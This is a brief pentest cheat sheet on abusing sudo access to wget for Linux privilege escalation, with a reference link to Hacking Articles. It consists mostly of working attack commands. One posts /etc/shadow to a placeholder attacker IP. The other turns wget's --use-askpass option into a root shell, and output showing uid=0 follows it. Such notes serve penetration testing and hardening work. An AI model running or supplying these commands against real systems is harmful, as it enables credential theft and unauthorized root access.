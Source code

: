 # Wget

Send file to web server

```
user@debian:~$ sudo wget --no-hsts --post-file=/etc/shadow <attacker_IP>
```

Spawn a rooted shell

```
user@debian:~$ TF=$(mktemp)
user@debian:~$ chmod +x $TF
user@debian:~$ echo -e '#!/bin/bash\n/bin/bash 1>&0' > $TF
user@debian:~$ sudo wget --use-askpass=$TF 0

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```

---
## References

### Hacking Articles

- [Hacking Articles: Wget Privilege Escalation](https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/)